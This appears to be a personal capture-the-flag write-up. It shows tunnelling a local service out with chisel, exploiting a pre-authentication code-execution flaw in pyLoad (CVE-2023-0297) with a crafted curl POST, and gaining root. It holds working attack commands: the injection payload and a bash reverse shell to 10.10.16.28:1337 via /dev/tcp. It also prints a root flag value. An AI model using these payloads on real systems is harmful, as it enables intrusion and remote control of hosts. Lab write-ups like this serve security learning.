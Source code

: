 	And now to run chisel we must do this:
	
	on my machine:
	```
	./chisel server --reverse -p 1234 
	```
	on the victim:
	```
	./chisel client 10.10.16.28:1234 R:8000:127.0.0.1:8000/tcp
	```
	
	Now when I see the http://127.0.0.1:8000/ on my browser I can see this
	
	![[Screenshot_2023-09-05_16_30_59.png]]
	
	I need to find some vulnerability of this on google , exploit or something , because I have no credentials, this pyLoad is related in some way to the 
	
	
	
	This is the vulnerability in question..
	https://github.com/bAuh0lz/CVE-2023-0297_Pre-auth_RCE_in_pyLoad
	
	and this is the code that sugest to use 
	```
	curl -i -s -k -X $'POST' \
		    --data-binary $'jk=pyimport%20os;os.system(\"touch%20/tmp/pwnd\");f=function%20f2(){};&package=xxx&crypted=AAAA&&passwords=aaaa' \
	    $'http://<target>/flash/addcrypted2'
	```
	
	first I need to create on the tmp folder a script called "bash.sh" with the content 
	
	
	```
	#!/bin/bash
	bash -i  >& /dev/tcp/10.10.16.28/1337 0>&1
	```
	and on the pwned machine I must do this
	
	```
	curl -i -s -k -X $'POST' \
	    --data-binary $'jk=pyimport%20os;os.system(\"bash%20/var/tmp/bash.sh\");f=function%20f2(){};&package=xxx&crypted=AAAA&&passwords=aaaa' \
	    $'http://127.0.0.1:8000/flash/addcrypted2'
	```
	
	So finally I did it ..
	
	
	root flag
	a77371e5cdde2a89688b40fcec7ad5f4
